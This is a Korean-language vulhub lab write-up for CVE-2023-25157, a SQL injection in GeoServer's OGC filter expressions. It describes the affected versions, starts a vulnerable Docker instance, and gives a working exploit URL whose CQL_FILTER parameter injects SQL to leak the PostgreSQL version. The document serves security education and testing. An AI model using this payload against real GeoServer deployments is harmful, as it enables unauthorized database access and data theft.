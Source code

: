 # Whitehat School `vulhub` 한글판
# CVE-2023-25157

GeoServer는 지리 정보 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공하는 JAVA로 작성된 오픈 소스 소프트웨어 서비스이다. 
GIS는 지리 정보 시스템으로 데이터베이스, 웹 기반 데이터 및 개인 데이터 세트와 같은 다양한 원본의 지리 정보 데이터를 배포하기 위해 효율적인 솔루션으로 설계되었다.

2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었다.

참고 :

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## 취약한 환경

GeoServer 인스턴스 2.22.1을 시작하는 명령어 :
docker compose up -d


서버가 시작된 후 GeoServer의 기본 페이지를 다음 주소를 볼 수 있다 :
http://your-ip:8080/geoserver


## 익스플로잇 단계

취약점을 악용하기 전에 PostGIS 데이터 저장소를 포함하는 기존 작업 공간을 찾아야 한다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 있다.:

- 저장소 이름 : `vulhub`
- 데이터 저장소 이름 : `pg`
- Feature 유형 (테이블) 이름 : `example`
- Feature 유형의 속성 중 하나 : `name`

서버를 악용할 수 있는 URL :
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true


![](1.png)

SQL injection을 통해 GeoServer로부터 PostgreSQL 버전이 검색된 것을 확인할 수 있다.
